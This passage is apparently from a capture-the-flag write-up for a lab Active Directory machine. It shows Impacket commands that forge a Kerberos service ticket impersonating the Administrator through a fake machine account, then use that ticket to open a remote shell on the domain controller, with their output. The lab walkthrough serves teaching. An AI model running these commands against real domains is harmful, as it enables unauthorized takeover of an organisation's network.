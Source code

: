With all the changes we made, our fake computer account is allowed to impersonate any user in the victim machine. We can escalate our privileges by impersonating the Administrator account using Impacket to generate a Kerberos Service Ticket on behalf of the Administrator using our fake machine account:

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-getST support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn cifs/dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

Nice, we have the ticket. Now we can use it with `impacket-wmiexec` to get a shell to the domain controller as domain administrator!

```bash
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=administrator.ccache

┌──(kali㉿kali)-[~]
└─$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator
```
